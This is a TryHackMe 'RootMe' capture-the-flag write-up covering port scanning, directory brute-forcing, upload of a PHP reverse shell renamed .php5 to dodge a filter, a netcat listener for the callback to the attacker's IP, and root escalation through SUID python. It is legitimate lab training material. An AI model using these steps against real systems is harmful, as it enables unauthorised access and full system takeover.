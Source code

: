 # RootMe — TryHackMe Write-up  
![Nmap Returns](logo.png)
_Target IP: **10.10.2.71**_  

> This write-up walks through every task in the **RootMe** room, from deployment to privilege escalation.  
> Replace the screenshot filenames (`screenshot1.png`, `screenshot2.png`, …) with your own captures.

---

## Task 1 – Deploy the Machine  

1. Click **“Start Machine”** in the room.  
2. Note the target’s IP once it boots up.  
   ```
   Victim IP: 10.10.2.71
   ```
---

## Task 2 – Reconnaissance  

### 1 . Port scan  

```bash
nmap -sV 10.10.2.71
```

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 7.6p1 Debian 4+deb9u4 |
| 80   | http    | Apache **2.4.29** (Ubuntu)    |

> **Answers**  
> *How many ports are open?* **2**  
> *What version of Apache is running?* **2.4.29**  
> *What service is running on port 22?* **ssh**

![Nmap Returns](screenshots/1.png)

### 2 . Directory brute-force  

```bash
# Ensure wordlist is present
sudo mkdir -p /usr/share/wordlists/dirb
sudo wget https://raw.githubusercontent.com/v0re/dirb/master/wordlists/common.txt      -P /usr/share/wordlists/dirb/

gobuster dir   -u http://10.10.2.71/sitemap   -w /usr/share/wordlists/dirb/common.txt
```

Key finding:

```
/panel/      (Status: 301)
```

![Gobuster results](screenshots/2.png)

---

## Task 3 – Getting a Shell  

1. Browse to `http://10.10.2.71/panel/` — it exposes a file-upload form.  
2. Grab **PentestMonkey’s PHP reverse shell**:  

   ```bash
   wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   ```

3. Edit two lines, then save as **`shell.php5`** (the unusual extension bypasses filters):

   ```php
   $ip   = '10.11.137.220';   // ← your tun0 / VPN IP
   $port = 1234;              // listener port
   ```

   ![Edited reverse shell](screenshots/3.png)

4. Upload `shell.php5` via `/panel/`.  
5. Start a listener:

   ```bash
   nc -lvnp 1234
   ```

6. Trigger the payload:

   ```
   http://10.10.2.71/uploads/shell.php5
   ```

7. Upgrade the TTY:

   ```bash
   python -c 'import pty, os; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

8. Grab **user.txt**:

   ```bash
   find / -type f -name user.txt 2>/dev/null
   # -> /var/www/user.txt
   cat /var/www/user.txt
   ```

   ![User flag obtained](screenshots/6.png)

---

## Task 4 – Privilege Escalation  

### 1 . Find SUID binaries  

```bash
find / -user root -perm -4000 -type f 2>/dev/null
```

Notable hit:

```
/usr/bin/python
```

![SUID python](screenshots/7.png)

### 2 . GTFOBins technique  

According to [GTFOBins → python → SUID](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

You now have a **root shell** (`#` prompt).

### 3 . Read **root.txt**  

```bash
find / -type f -name root.txt 2>/dev/null
# -> /root/root.txt
cat /root/root.txt
```

![Root flag](screenshots/10.png)

---

## Flags  

| Flag | Location | Proof |
|------|----------|-------|
| **user.txt** | `/var/www/user.txt` | `THM{...}` |
| **root.txt** | `/root/root.txt`    | `THM{...}` |

---

### Clean-up  

- Exit the root shell: `exit` twice.  
- Stop your Netcat listener.  
- Terminate the THM VM if you’re finished to avoid idle timeouts/billing.

---

**Done — you now own RootMe!** 🎉
